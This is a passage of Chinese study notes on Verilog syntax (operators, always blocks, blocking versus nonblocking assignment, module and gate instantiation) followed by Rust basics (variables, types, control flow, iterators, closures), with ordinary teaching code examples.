除 | |
+ |
加 | |
- |
减 | |
% |
取模 | |
** |
求幂 | |
| 逻辑 | ! |
逻辑求反 |
&& |
逻辑与 | |
| | |
逻辑或 | |
| 关系 | > |
大于 |
< |
小于 | |
>= |
大于等于 | |
<= |
小于等于 | |
| 等价 | == |
相等 |
!= |
不等 | |
=== |
case 相等 | |
!== |
case 不等 | |
| 按位 | ~ |
按位求反 |
& |
按位与 | |
| |
按位或 | |
^ |
按位异或 | |
^~或~^ |
按位同或 | |
| 缩减 | & |
缩减与 |
~& |
缩减与非 | |
| |
缩减或 | |
~ | |
缩减或非 | |
^ |
缩减异或 | |
^~或~^ |
缩减同或 | |
| 移位 | >> |
右移 |
<< |
左移 | |
>>> |
算术右移 | |
<<< |
算术左移 | |
| 拼接 | {} |
拼接 |
| 复制 | {n{}} |
复制 |
| 条件 | ?: |
条件 |
需要注意的地方
前面几个比较简单,和C语言基本一样
等价运算符
- 等于和不等于运算的结果可能是1(逻辑真)、0(逻辑假)、x(不确定);对于x或z,认为是不确定的值,比较结果为x;
- case等和case不等的结果只能是1或0,对于x、z认为是确定的值,参加比较;
按位运算符
- 按位运算的操作数是1位或多位二进制数,
- 按位非的操作数只有一个,将该数的每一位求非运算.
- 其它按位运算的操作数有2个或多个,将两个操作数对应的位两两运算;
- 如果操作数位宽不同,位宽小的会自动左添0补齐;
- 结果与操作数位宽相同;
缩减运算符
- 缩减运算的操作数是1位或多位二进制数;
- 缩减运算的操作数只有一个,将该数的各位自左至右进行逻辑运算,结果只有一位.
移位运算符
- 移位运算的操作数是1位或多位二进制数;
- 向左或向右移n位;
- 只有对有符号数的算术右移自动补符号位;
- 其他移位均自动补0.
拼接(拼总线)
- 将多个操作数拼接起来; - 将操作数复制n遍并拼接起来; - 可以组合使用.条件运算符
a?:b:c如果a是1,则返回b,否则返回c;可以嵌套使用
always语句块¶
特点
- always语句本身不是单一的有意义的一条语句,而是和下面的语句一起构成一个语句块,称之为过程块;过程块中的赋值语句称过程赋值语句;
- 该语句块不是总处于激活状态,当满足激活条件时才能被执行,否则被挂起,挂起时即使操作数有变化,也不执行赋值,赋值目标值保持不变;
- 赋值目标必须是reg型的.
Note
激活条件由敏感信号条件表决定,当敏感条件满足时,过程块被激活. 敏感条件有两种,一种是边沿敏感,一种是电平敏感
边沿敏感
posedge信号名:信号上升沿到来negedge信号名:信号下降沿到来
电平敏感
- 信号名列表:信号列表中任一个信号有变化(例如
(a,b,c)或(a or b or c),当三个信号中有一个发生变化)
Example
当CLK上升沿到来时,激活该语句块,将D的值赋给Q; 否则,该语句块挂起,即使D有变化,Q的值也保持不变,直到下一次赋值 . 当D有变化时(不管是由1变0还是由0变1),激活该语句块,将D的值赋给Q; 否则,该语句块挂起,Q的值保持不变,直到下一次赋值.Note
- 过程块中的赋值目标必须是reg型的.
- 由于always语句可以描述边沿变化,在设计时序电路中得到广泛应用.
- always语句中还可以使用if、case、for循环等语句,其功能更加强大.例如
assign语句和always语句的区别
- 连续赋值语句总是处于激活状态,只要操作数有变化马上进行计算和赋值;
- 过程赋值语句只有当激活该过程时,才会进行计算和赋值,如果该过程不被激活,即使操作数发生变化也不会计算和赋值.
- verilog规定
assign中的赋值目标必须是wire型的,而always语句中的赋值目标必须是reg型的. always语句块中如果有多条赋值语句必须将其用beginend包括起来,assign语句中没有beginend
Example
只要D发生变化,马上进行计算和赋值; Q必须是wire型 只有当clk上升沿到来时,才能激活该块语句,才能进行计算和赋值;否则,即使D发生变化也不会计算和赋值.在未被激活时,Q的值保持不变. Q必须是reg型.阻塞赋值和非阻塞赋值
begin end之间的赋值语句有阻塞赋值和非阻塞赋值之分
-
阻塞赋值
对a赋值会阻塞赋值b,即只有当赋值a执行完才能执行赋值b.=:语句顺序执行,前面的执行完才能执行后面的语句; -
非阻塞赋值
对a赋值不会阻塞赋值b,两个语句并行执行<=:所有语句并行执行
Example
当m赋值完成后,才能执行y的赋值,y得到的是m的新值. m和y的赋值并行执行,y得到的是m的旧值.设A、B同时由0变1
激活前：M1=0,M2=0,Q=0激活后：先计算A=1,马上赋值给M1 再计算B&M1=1,马上赋值给M2 再计算M1|M2=1,马上赋值给Q
先计算A=1,(等待,不赋值)
再计算B&M1=0,(等待,不赋值)
再计算M1|M2=0,(等待,不赋值)
过程结束
先赋值给M1=1
再赋值给M2=0
再赋值给Q=0
总结 :
-
阻塞赋值的实质:右边表达式的计算和对左边寄存器变量的赋值是一个统一的原子操作中的两个动作,这两个动作之间不能再插入其他任何动作.
-
非阻塞赋值的实质:首先按顺序计算右边表达式的值,但是并不马上赋值,而是要等到过程结束时再按顺序赋值.
Note
- 设计组合电路时常用阻塞赋值;
- 设计时序电路时常用非阻塞赋值;但不是绝对的.
- 不建议在一个always块中混合使用阻塞赋值和非阻塞赋值
Example
阻塞赋值实现的组合电路
module MY (A,B,C,Y)
input A,B,C;
output Y;
reg Y;
reg M;
always @ (A,B,C)
begin
M=B|C;
Y=A&M;
end
endmodule
assign的)
非阻塞赋值实现的移位寄存器
这个移位寄存器是每当上升沿到来,同时整体移动的,而不是a先变化,b再变化······把assign和always结合起来,举一个4位二进制加法计数器的例子
module CNT4 (CLK,Q);
input CLK;
output [3:0] Q;
reg [3:0] Q1;
always @ (posedge CLK)
begin
Q1<=Q1+1;
end
assign Q=Q1;
endmodule
always和assign两条语句,他们之间是并行的;有一个内部变量Q1,使用时要进行声明;
底层模块调用¶
类似于C语言里面的函数调用,Verilog中也有模块的调用,调用的格式为:底层模块名 例化名 (端口映射);
Example
实现如下电路
先定义好D触发器,然后再设计顶层电路,在顶层电路中可调用底层模块.
然后,在顶层模块中调用 为了调用底层模块,需要加两个内部变量d1和q1,并给两次调用的模块进行命名,调用时例化名不能省略.端口映射
-
端口名关联法(命名法),将模块的端口和调用模块的环境中的变量对应起来, 即(.底层端口名1(外接信号名1),.底层端口名2(外接信号名2),…)
DFF dff1(.CLK(clk),.D(d1),.Q(q1));,这样的方法因为有名字对应,不必按照模块的端口列表排序. -
位置关联法(顺序法):将模块的端口以及要接的外部信号按照模块定义的顺序一一对应起来(外接信号名1,外接信号名2,…)
DFF dff2(q1,d,q);,这样的方法必须严格按照底层模块的端口信号列表顺序书写
门原语调用¶
Verilog 语言语言提供已经设计好的门,称为门原语(primitive,共12个),这些门可直接调用,不用再对其进行功能描述.
门原语调用格式： 门原语名 实例名 (端口连接)
Note
和模块调用不同,实例名可以省略,端口连接只能采用顺序法,输出在前,输入在后.
常见的门原语
-
与门等6个:
and,or,xor,nand,nor,xnor.用法例如and (out,in1,in2,in3···),第一个是输出,后面跟着输入,输入不限制个数 -
非门:
not,用法例如not (OUT,IN) -
缓冲器:
buf,用法例如buf b1_2out(OUT1, OUT2, IN);,前面是输出,最后一个是输入,输出个数不限. -
三态门
- bufif1(控制端1有效缓冲器)
- bufif0 (控制端0有效缓冲器)
- notif1(控制端1有效非门)
- notif0(控制端0有效非门)
- 端口列表中前面是输出,中间是输入,最后是使能端,输出个数不限
Hint
Verilog中的数据类型¶
Verilog中的数据类型分为两大类:net(线网)类和variable(变量)类
Note
因连续赋值语句和过程赋值语句的激活特点不同,故赋值目标特点也不同,前者不需要保存,后者需要保存,因此规定两种数据类型,net型用于连续赋值的赋值目标或门原语的输出,且仿真时不需要分配内存空间,variable用于过程赋值的赋值目标,且仿真时需要分配内存空间.
- net 类中的数据类型(常用wire)
| wire(线型) | tri(三态) | tri0(下拉电阻) | supply0(地) |
|---|---|---|---|
| wand(线与) | triand(三态与) | tri1(上拉电阻) | supply1(电源) |
| wor(线或) | trior(三态或) | trireg(电容性线网) |
- Variable类中的数据类型(常用reg)
| reg(寄存器型) | |
|---|---|
| integer(整型) | time(时间型) |
| real(实型) | realtime(实时间型) |
Info
将一个信号定义成net型还是varible型,由以下两方面决定
a.使用何种赋值语句对该信号进行赋值,如果是连续赋值或门原语赋值或例化语句赋值,则定义成net型;如果是过程赋值则定义成variable型.
b.对于端口信号来说,input信号和inout信号必须定义成net型的;output信号可以是net型的也可以是variable型的,决定于如何对其赋值(同a).
Example
该图中d和e的赋值有三种方法
-
使用连续赋值语句
此时,d和e必须定义为net类的 -
使用门原语赋值
此时,d和e也必须是net类的 -
使用过程赋值语句
此时d和e必须是reg类型的.
我们也可以在这里回忆一下,这里d先改变了,e会受到d的影响,所以需要使用阻塞赋值.
Verilog中数字的表示格式以及逻辑值¶
- 无符号数的表示方法:
位宽+'+进制+数字(5'd8,五位十进制8,也就是\((01000)_2\)) - 有符号数的表示方法:
位宽+'+sb+数字(8'sb10111011,第一位是符号位,是\(-(01000101)_2=-69_{10}\)) - Verilog语言中的逻辑值有四种:
- 1：逻辑1，高电平，数字1
- 0：逻辑0，低电平，数字0
- x：不确定
- z：高阻态
if语句¶
Verilog中有四种类型的if语句,大致也跟C语言类似
if(<条件表达式>)语句;if(<条件表达式>)真语句;else 假语句;verilog if (<条件表达式1>)语句1; else if (<条件表达式2>)语句2 ; else if (<条件表达式3>)语句3 ;-
Verilog if (<条件表达式1>)语句1 ; else if (<条件表达式2>)语句2 ; else if (<条件表达式3>)语句3 ; else 默认语句 ; -
多条语句时使用
beginend
Danger
在用if语句设计“组合电路”时要注意，如果条件不完整，会综合出寄存器。
使条件完整的两种方法:
- 加else
- 设初值

Verilog
always @(a,b)
Q=a;
if (sel) Q=b;
- 条件表达式格式:(计算表达式),计算表达式可以是任意形式的表达式；条件表达式的结果只有0和1两种，如果计算表达式的值为0，则条件表达式的值为0，否则为1。
例如,设a=1000,b=0110
| 条件表达式 | 计算表达式 | 结果 |
|---|---|---|
| if (a==b) | 0 | 0 |
| if (a>b) | 1 | 1 |
| if (a) | 1000 | 1 |
| if (a*b) | 11_0000(前两位被截掉) | 0 |
| if (a | b) | 1110 |
| if (a&b) | 0000 | 0 |
Case 语句¶
功能类似于C语言中的switch case语句
格式:
default语句可加可不加,但是要注意条件的完整性
Verilog的语言描述风格¶
- 结构化描述(也称门级描述,全部使用门原语和底层模块调用)
- 数据流级描述(全部用
assign语句) - 行为级描述(全部用
always语句配合if``case语句等) - RTL级描述方式(数据流级+行为级，可综合)
- 实际描述是三种混合的
Example
门级描述
module mux4_to_1 (out, i0, i1, i2, i3, s1, s0);
output out;
input i0, i1, i2, i3;
input s1, s0;
wire s1n, s0n;
wire y0, y1, y2, y3;
not (s1n, s1);
not (s0n, s0);
and (y0, i0, s1n, s0n);
and (y1, i1, s1n, s0);
and (y2, i2, s1, s0n);
and (y3, i3, s1, s0);
or (out, y0, y1, y2, y3);
endmodule
数据流级描述
module mux4_to_1 (out, i0, i1, i2, i3, s1, s0);
output out，
input i0, i1, i2, i3;
input s1, s0;
assign out = (~s1 & ~s0 & i0)|(~s1 & s0 & i1) |(s1 & ~s0 & i2) |(s1 & s0 & i3) ;
endmodule
行为级描述
其他规定¶
-
关键字:关键字即Verilog语言中预定义的有特殊含义的英文词语
-
标识符:标识符即用户自定义的信号名、模块名等等； 注意关键字不能作标识符； Verilog区别大小写（关键字都是小写）
-
Verilog文件扩展名为.v；verilog不要求文件名和模块名一致
-
注释:和C语言一样,//单行注释,/**/多行注释
RUST基础语法¶
约 14958 个字 1057 行代码 预计阅读时间 65 分钟
据说这门语言很

前置¶
Rust语言的特点
-
高性能: Rust 速度惊人且内存利用率极高。由于没有运行时和垃圾回收，它能够胜任对性能要求特别高的服务，可以在嵌入式设备上运行，还能轻松和其他语言集成。
-
可靠性: Rust 丰富的类型系统和所有权模型保证了内存安全和线程安全，让您在编译期就能够消除各种各样的错误。
-
生产力 Rust 拥有出色的文档、友好的编译器和清晰的错误提示信息， 还集成了一流的工具 —— 包管理器和构建工具， 智能地自动补全和类型检验的多编辑器支持， 以及自动格式化代码等等。
Rust的应用
Rust 语言可以用于开发：
- 传统命令行程序 Rust 编译器可以直接生成目标可执行程序，不需要任何解释程序。
- Web 应用 Rust 可以被编译成 WebAssembly，WebAssembly 是一种 JavaScript 的高效替代品。
-
网络服务器 Rust 用极低的资源消耗做到安全高效，且具备很强的大规模并发处理能力，十分适合开发普通或极端的服务器程序。
-
嵌入式设备 Rust 同时具有JavaScript 一般的高效开发语法和 C 语言的执行效率，支持底层平台的开发。
RUST文件的后缀名为.rs,通过运行rustc xxx.rs可以直接生成可执行文件
rust语言的注释方式跟C语言一样，支持两种注释方法，//单行注释和/**/多行注释
但是需要注意的是，在这种情况下/// 仍然是一种合法的注释方式，所以可以用这种特殊的方式来当作文档的说明
变量¶
声明变量¶
Rust是强类型语言，具有自动判断变量类型的能力。
如果要声明变量需要使用let关键字
例如：
在变量a被声明之后,a就被确定为整形 不可变变量
也就是说:
- 不可以将其它类型的变量赋给它
- 不允许将小数赋给它，因为自动转换数字精度有损失，Rust 语言不允许精度有损失的自动数据类型转换。
- 不允许对它重新赋其他值
如果想要a可以被重新赋值，只需要在a前面加一个mut（mutable），这样a就变成了可变的变量
例如：
常量与不可变变量的区别
不可变变量仍然是变量，也就是说可以对它**重新定义**，例如：
但是如果是常量，就不允许对它进行任何改变的操作 这种不可变变量的名称可以被重新绑定的机制叫做**重影(shadowing)** 程序运行结果数据类型¶
整数类型
整数型简称整型，按照比特位长度和有无符号分为以下种类：
| 位长度 | 有符号 | 无符号 |
|---|---|---|
| 8-bit | i8 | u8 |
| 16-bit | i16 | u16 |
| 32-bit | i32 | u32 |
| 64-bit | i64 | u64 |
| 128-bit | i128 | u128 |
| arch | isize | usize |
isize 和 usize 两种整数类型是用来衡量数据大小的，它们的位长度取决于所运行的目标平台，如果是 32 位架构的处理器将使用 32 位位长度整型
rust中可以用不同的方式表示整数
| 进制 | 例 |
|---|---|
| 十进制 | 98_222 |
| 十六进制 | 0xff |
| 八进制 | 0o77 |
| 二进制 | 0b1111_0000 |
| 字节(只能表示 u8 型) | b'A' |
Example
虽然 Rust 有自动判断类型的功能，但有些情况下声明类型更加方便：
这里声明了a 为无符号 64 位整型变量，如果没有声明类型，a 将自动被判断为有符号 32 位整型变量，这对于 a 的取值范围有很大的影响。
浮点数型(Floating-Point)
Rust 与其它语言一样支持 32 位浮点数（f32）和 64 位浮点数（f64）。默认情况下，64.0 将表示 64 位浮点数，因为现代计算机处理器对两种浮点数计算的速度几乎相同，但 64 位浮点数精度更高。
实例
rust 同时也支持基本的数学运算，但是不支持C语言里面有的++和--,因为这两个运算符出现在变量的前后会影响代码可读性，减弱了开发者对变量改变的意识能力。
基本的四则运算有+(加),-(减),*(乘),/(除),%(mod)
bool类型
bool值只能为true或者false
字符型
字符型用 char 表示。 Rust的 char 类型大小为 4 个字节，代表 Unicode标量值，这意味着它可以支持中文，日文和韩文字符等非英文字符甚至表情符号和零宽度空格在 Rust 中都是有效的 char 值。 Unicode 值的范围从 U+0000 到 U+D7FF 和 U+E000 到 U+10FFFF （包括两端）。 但是，"字符"这个概念并不存在于 Unicode 中，因此您对"字符"是什么的直觉可能与Rust中的字符概念不匹配。所以一般推荐使用字符串储存 UTF-8 文字（非英文字符尽可能地出现在字符串中）。
注意：由于中文文字编码有两种（GBK 和 UTF-8），所以编程中使用中文字符串有可能导致乱码的出现，这是因为源程序与命令行的文字编码不一致，所以在 Rust 中字符串和字符都必须使用 UTF-8 编码，否则编译器会报错。
复合类型
跟python类似,rust中有
-
元组
(),可以包含不同的数据类型 -
数组
[],同类型数据let a = [1, 2, 3, 4, 5]; // a 是一个长度为 5 的整型数组 let b = ["January", "February", "March"]; // b 是一个长度为 3 的字符串数组 let c: [i32; 5] = [1, 2, 3, 4, 5]; // c 是一个长度为 5 的 i32 数组 let d = [3; 5]; // 等同于 let d = [3, 3, 3, 3, 3]; let first = a[0]; let second = a[1]; // 数组访问 a[0] = 123; // 错误：数组 a 不可变 let mut a = [1, 2, 3]; a[0] = 4; // 正确
函数¶
基本结构¶
rust函数的结构和C语言类似,其基本结构为
用到的函数需要在main函数里面调用，但是并不需要在调用之前出现
Example
函数参数¶
Rust 中定义函数如果需要具备参数必须声明参数名称和类型：
Example
运行结果函数体的语句和表达式¶
Rust 函数体由一系列可以 以表达式（Expression）结尾 （在这里断句） 的语句（Statement）组成。
语句是执行某些操作且没有返回值的步骤。例如：
表达式有计算步骤且有返回值在Rust 中可以在一个用 {}包括的块里编写一个较为复杂的表达式：
fn main() {
let x = 5;
let y = {
let x = 3;
x + 1//可以理解为局部变量
};//和y=连在一起是一条语句
println!("x 的值为 : {}", x);
println!("y 的值为 : {}", y);
}
这段程序中包括了一个表达式块，在块中可以使用函数语句，最后一个步骤是表达式，此表达式的结果值是整个表达式块所代表的值。这种表达式块叫做函数体表达式。
Danger
x + 1 之后没有分号，否则它将变成一条语句！
返回值¶
不同于C语言，RUST函数既可以嵌套使用也可以嵌套定义
fn main() {
fn five() -> i32 {
5//表达式，不能加分号
}//用{}来创建一个作用域,不用分号
println!("five() 的值为: {}", five());
}
上面的例子中，在main函数里面定义了一个five()，返回类型使用->在参数声明之后指明，不是:,在函数体中，随时都可以以 return 关键字结束函数运行并返回一个类型合适的值。这也是最接近大多数开发者经验的做法：
Danger
注意：函数体表达式并不能等同于函数体，它不能使用 return 关键字。
条件语句¶
RUST中的条件语句与C语言类似 例如
let num=3
if num<5
{
println!("less than five")
}
else if num==5{
println!("equal to five")
}
else {
println!("bigger than five")
}
- 条件表达式不需要用
()括起来,注意是不需要而不是不允许 - RUST中的
if语句不存在单句不用{}的规则，一个块还是需要括起来的 - RUST中的条件表达式必须是bool类型的，不允许像C中允许的非零即可判断为真，例如下面的程序是非法的
Note
这种结构下的block也可以是函数体表达式 用法例如 这样就实现了三元运算表达式A?B:C的效果
循环¶
while循环¶
例如
for循环¶
跟C语言的for循环相比，rust语言的for循环更加类似于python
fn main() {
let a = [10, 20, 30, 40, 50];
for i in a.iter() { //a.iter() 代表 a 的迭代器（iterator）
println!("值为 : {}", i);
}
}
fn main() {
let a = [10, 20, 30, 40, 50];
for i in 0..5 { //0..5的用法相当于range(0,5)
println!("a[{}] = {}", i, a[i]);
}
}
loop循环¶
rust比较有特点，当我们想使用无限循环的时候，不必while true{}而本身就内置有loop结构无限循环
fn main() {
let s = ['R', 'U', 'N', 'O', 'O', 'B'];
let mut i = 0;
loop {
let ch = s[i];
if ch == 'O' {
break ;
}
println!("\'{}\'", ch);
i += 1;
}
}
loop循环的break也可以通过携带关键字来向外部返回一个值,作用类似于return
fn main() {
let s = ['R', 'U', 'N', 'O', 'O', 'B'];
let mut i = 0;
let location = loop {
let ch = s[i];
if ch == 'O' {
break i;
}
i += 1;
};
println!(" \'O\' 的索引为 {}", location);
}
迭代器¶
Rust 中的迭代器是一种方便、高效的数据遍历方法，它提供了一种抽象的方式来访问集合中的每个元素，而不需要显式地管理索引或循环。
迭代器允许你以一种声明式的方式来遍历序列，如数组、切片、链表等集合类型的元素。
迭代器背后的核心思想是将数据处理过程与数据本身分离，使代码更清晰、更易读、更易维护。
迭代器遵循以下原则：
-
惰性求值：迭代器不会立即计算其元素，而是在需要时才计算，这使得迭代器可以用于处理无限序列。例如，当调用
map()或filter()方法时，并不会立即对集合进行转换或过滤，而是返回一个新的迭代器，只有当真正需要获取数据时，才会对数据进行转换或过滤。 -
消费性：在迭代器完成迭代后，它所迭代的集合将被消费，即集合的所有权被转移给迭代器，集合不能再被使用。
-
不可变访问：迭代器默认以不可变方式访问其元素，这意味着在迭代过程中不能修改元素。
-
所有权：迭代器可以处理拥有或借用的元素。当迭代器借用元素时，它不会取得元素的所有权。例如，
iter()方法返回的是一个借用迭代器，而into_iter()方法返回的是一个获取所有权的迭代器。
创建迭代器¶
- 使用
iter()方法创建借用迭代器
代码解释
let vec:
let 关键字用于声明变量，vec 是变量的名称。在这个例子中，vec 将被绑定到一个 Vec<i32> 对象上。
vec![] 宏:
vec![] 是一个宏，用于创建一个新的 Vec（动态数组）。Vec 是 Rust 标准库提供的一个通用集合类型，可以在运行时动态增长。
通过 vec![] 宏，可以直接创建一个包含初始元素的向量。
[1, 2, 3, 4, 5]:
方括号内的数字 1, 2, 3, 4, 5 是 Vec 的初始元素。
在这个例子中，vec! 宏创建了一个 Vec<i32> 类型的向量，其中包含了这五个整数。
-
使用
iter_mut()方法创建可变借用迭代器 -
使用
into_iter()方法创建获取所有权的迭代器：
迭代器方法¶
-
首先定义了一个包含整数的数组，然后使用map()对每个元素应用特定的转换函数iter()方法获取数组的迭代器，接着使用迭代器的map()方法对数组中的每个元素进行平方运算，并使用collect()方法将结果收集到一个新的数组squared_vec中。最后输出了平方后的数组。 -
原理类似filter()根据特定的条件过滤集合中的元素 -
fold()：对集合中的元素进行累积处理。 skip()：跳过指定数量的元素。take()：获取指定数量的元素。enumerate()：为每个元素提供索引。感觉记不住，反正先记着，具体用到的时候再搜就行了

for循环遍历迭代器¶
Rust 提供了 for 循环语法来遍历迭代器中的元素，是一种更加简洁和直观的遍历方式。
Rust 的 for 循环底层实际上是使用迭代器的。
消费迭代器¶
使用迭代器直到它被完全消耗
let arr = vec![1, 2, 3];
let mut iter = arr.into_iter();
while let Some(val) = iter.next() {
println!("{}", val);
}
适配器¶
迭代器适配器是一系列提供给迭代器的函数，它们可以修改迭代器的行为。例如 map, filter, take 等。
let arr = [1, 2, 3, 4, 5];
let even_numbers: Vec<_> = arr.into_iter().filter(|&x| x % 2 == 0).collect();
迭代器链¶
可以将多个迭代器适配器链接在一起，形成迭代器链。
use std::iter::Peekable;
let arr = [1, 2, 3, 4, 5];
let mut iter = arr.into_iter().peekable();
while let Some(val) = iter.next() {
if val % 2 == 0 {
continue;
}
println!("{}", val);
}
收集器¶
可以使用collect方法将迭代器的元素收集到某种集合中
其他¶
迭代器的生命周期与它所迭代的元素的生命周期相关联。迭代器可以借用元素，也可以取得元素的所有权。这在迭代器的实现中通过生命周期参数来控制。
迭代器与闭包 迭代器适配器经常与闭包一起使用，闭包允许你为迭代器操作提供定制逻辑。
迭代器和性能
迭代器通常是非常高效的，因为它们允许编译器做出优化。例如，编译器可以内联迭代器适配器的调用，并且可以利用迭代器的惰性求值特性。、
附录:迭代器方法¶
| 方法名 | 描述 | 示例 |
|---|---|---|
next() |
返回迭代器中的下一个元素。 | let mut iter = (1..5).into_iter(); while let Some(val) = iter.next() { println!("{}", val); } |
size_hint() |
返回迭代器中剩余元素数量的下界和上界。 | let iter = (1..10).into_iter(); println!("{:?}", iter.size_hint()); |
count() |
计算迭代器中元素的数量。 | let count = (1..10).into_iter().count(); |
nth() |
返回迭代器中的第 n 个元素。 | let third = (0..10).into_iter().nth(2); |
last() |
返回迭代器中的最后一个元素。 | let last = (1..5).into_iter().last(); |
all() |
如果迭代器中的所有元素都满足某个条件，返回 true。 |
let all_positive = (1..5).into_iter().all(|x| x > 0); |
any() |
如果迭代器中的至少一个元素满足某个条件，返回 true。 |
let any_negative = (1..5).into_iter().any(|x| x < 0); |
find() |
返回迭代器中第一个满足某条件的元素。 | let first_even = (1..10).into_iter().find(|x| x % 2 == 0); |
find_map() |
对迭代器的元素应用一个函数，返回第一个返回 Some 的结果。 |
let first_letter = "hello".chars().find_map(|c| if c.is_alphabetic() { Some(c) } else { None }); |
map() |
对迭代器中的每个元素应用一个函数。 | let squares: Vec<i32> = (1..5).into_iter().map(|x| x * x).collect(); |
filter() |
保留迭代器中满足某个条件的元素。 | let evens: Vec<i32> = (1..10).into_iter().filter(|x| x % 2 == 0).collect(); |
filter_map() |
对迭代器中的元素应用一个函数，如果该函数返回 Some，则保留结果。 |
let chars: Vec<char> = "hello".chars().filter_map(|c| if c.is_alphabetic() { Some(c.to_ascii_uppercase()) } else { None }).collect(); |
map_while() |
对迭代器中的元素应用一个函数，直到函数返回 None。 |
let first_three = (1..).into_iter().map_while(|x| if x <= 3 { Some(x) } else { None }); |
take_while() |
从迭代器中取出满足某个条件的元素，直到不满足为止。 | let first_five = (1..10).into_iter().take_while(|x| x <= 5).collect::<Vec<_>>(); |
skip_while() |
跳过迭代器中满足某个条件的元素，直到不满足为止。 | let odds: Vec<i32> = (1..10).into_iter().skip_while(|x| x % 2 == 0).collect(); |
for_each() |
对迭代器中的每个元素执行某种操作。 | let mut counter = 0; (1..5).into_iter().for_each(|x| counter += x); |
fold() |
对迭代器中的元素进行折叠，使用一个累加器。 | let sum: i32 = (1..5).into_iter().fold(0, |acc, x| acc + x); |
try_fold() |
对迭代器中的元素进行折叠，可能在遇到错误时提前返回。 | let result: Result<i32, &str> = (1..5).into_iter().try_fold(0, |acc, x| if x == 3 { Err("Found the number 3") } else { Ok(acc + x) }); |
scan() |
对迭代器中的元素进行状态化的折叠。 | let sum: Vec<i32> = (1..5).into_iter().scan(0, |acc, x| { *acc += x; Some(*acc) }).collect(); |
take() |
从迭代器中取出最多 n 个元素。 | let first_five = (1..10).into_iter().take(5).collect::<Vec<_>>(); |
skip() |
跳过迭代器中的前 n 个元素。 | let after_five = (1..10).into_iter().skip(5).collect::<Vec<_>>(); |
zip() |
将两个迭代器中的元素打包成元组。 | let zipped = (1..3).zip(&['a', 'b', 'c']).collect::<Vec<_>>(); |
cycle() |
重复迭代器中的元素，直至停止。 | let repeated = (1..3).into_iter().cycle().take(7).collect::<Vec<_>>(); |
chain() |
连接多个迭代器。 | let combined = (1..3).chain(4..6).collect::<Vec<_>>(); |
rev() |
反转迭代器中的元素顺序。 | let reversed = (1..4).into_iter().rev().collect::<Vec<_>>(); |
enumerate() |
为迭代器中的每个元素添加索引。 | let enumerated = (1..4).into_iter().enumerate().collect::<Vec<_>>(); |
peeking_take_while() |
取出满足条件的元素，同时保留迭代器的状态，可以继续取出后续元素。 | let (first, rest) = (1..10).into_iter().peeking_take_while(|&x| x < 5); |
step_by() |
按照指定的步长返回迭代器中的元素。 | let even_numbers = (0..10).into_iter().step_by(2).collect::<Vec<_>>(); |
fuse() |
创建一个额外的迭代器，它在迭代结束后仍然可以调用 next() 方法。 |
let mut iter = (1..5).into_iter().fuse(); while iter.next().is_some() {} |
inspect() |
在取出每个元素时执行一个闭包，但不改变元素。 | let mut counter = 0; (1..5).into_iter().inspect(|x| println!("Inspecting: {}", x)).for_each(|x| println!("Processing: {}", x)); |
same_items() |
比较两个迭代器是否产生相同的元素序列。 | let equal = (1..5).into_iter().same_items((1..5).into_iter()); |
闭包¶
Rust 中的闭包是一种匿名函数，它们可以捕获并存储其环境中的变量。
闭包允许在其定义的作用域之外访问变量，并且可以在需要时将其移动或借用给闭包。
闭包在 Rust 中被广泛应用于函数式编程、并发编程和事件驱动编程等领域。
闭包在 Rust 中非常有用，因为它们提供了一种简洁的方式来编写和使用函数。
以下是 Rust 闭包的一些关键特性和用法：
闭包的声明¶
闭包的语法声明
其中参数可以有类型注解,也可以省略,RUST编译器会根据上下文推断它们
闭包可以有0个或者多个参数,并且可以返回一个值,可以像函数一样被调用 闭包有点像python中的lambda语句，闭包在 Rust 中类似于匿名函数，可以在代码中以 {} 语法块的形式定义，使用 || 符号来表示参数列表
捕获外部变量¶
闭包可以捕获周围环境中的变量，这意味着它可以访问定义闭包时所在作用域中的变量。
移动与借用
闭包可以通过 move 关键字获取外部变量的所有权，或者通过借用的方式获取外部变量的引用。例如：
let x = 10;
let add_x = |y| x + y;
println!("{}", add_x(5)); // 输出 15
println!("{}", x); // 仍然可以使用 x
move 关键字，闭包会获取它捕获的环境变量的所有权。这意味着这些变量的所有权会从外部作用域转移到闭包内部，外部作用域将无法再使用这些变量。例如：
let s = String::from("hello");
let print_s = move || println!("{}", s);
print_s(); // 输出 "hello"
// println!("{}", s); // 这行代码将会报错，因为 s 的所有权已经被转移给了闭包
String::from("hello"): 这是一个调用 String 类型的关联函数 from，用于将一个字面量字符串（"hello"）转换为一个 String 类型。
String 类型:
在 Rust 中，字符串有两种主要的表示形式：&str 和 String。
&str 是一种切片，通常表示在编译时已知长度的不可变字符串。
String 是一种堆分配的可变字符串，适用于在运行时可能需要修改或扩展的字符串。
String::from:
String::from 是 String 类型的一个关联函数，它用于从 &str 类型创建一个 String 类型的值。
在这个例子中，String::from("hello")创建了一个新的 String，其中包含了字符串 "hello" 的内容。
分配和所有权:
String::from("hello") 创建的 String 对象在堆上分配了内存，并且拥有该内存的所有权。
变量 s 获得了这个 String 的所有权，这意味着当 s 作用域结束时，Rust 会自动释放 s 所占用的内存。
迭代器中的闭包¶
闭包在rust中经常与迭代器一起使用，用于对集合中的元素进行处理
例如之前提过的map方法
let vec = vec![1, 2, 3];
let squared_vec: Vec<i32> = vec.iter().map(|x| x * x).collect();
println!("{:?}", squared_vec); // 输出: [1, 4, 9]
在这个例子中，闭包|x| x*x被传递给map()对集合中的每一个元素进行平方操作
闭包作为参数和返回值
闭包可以作为参数传递给函数，也可以作为函数的返回值。
// 定义一个函数，接受一个闭包作为参数，将闭包应用到给定的数字上
fn apply_operation<F>(num: i32, operation: F) -> i32
where
F: Fn(i32) -> i32,
{
operation(num)
}
// 主函数
fn main() {
// 定义一个数字
let num = 5;
// 定义一个闭包，用于对数字进行平方运算
let square = |x| x * x;
// 调用函数，并传入闭包作为参数，对数字进行平方运算
let result = apply_operation(num, square);
// 输出结果
println!("Square of {} is {}", num, result);
}
Info
apply_operation 函数
fn apply_operation<F>(num: i32, operation: F) -> i32:
这是一个函数定义。
apply_operation函数接受两个参数并返回一个i32类型的值。num: i32: 第一个参数num是一个i32类型的整数。operation: F: 第二个参数operation是一个泛型F，它代表一个闭包（或函数）。-> i32: 函数返回一个i32类型的值。
where F: Fn(i32) -> i32:
这是一个约束，规定了泛型 F必须实现 Fn(i32) -> i32 这个特性。换句话说，F 必须是一个接受一个 i32 参数并返回一个 i32 值的闭包或函数。
operation(num):
这行代码调用了传入的闭包 operation，并将 num 作为参数传递给它。闭包的执行结果将作为 apply_operation 函数的返回值。
let result = apply_operation(num, square);:
这行代码调用 apply_operation 函数，将 num 和 square 闭包作为参数传入。
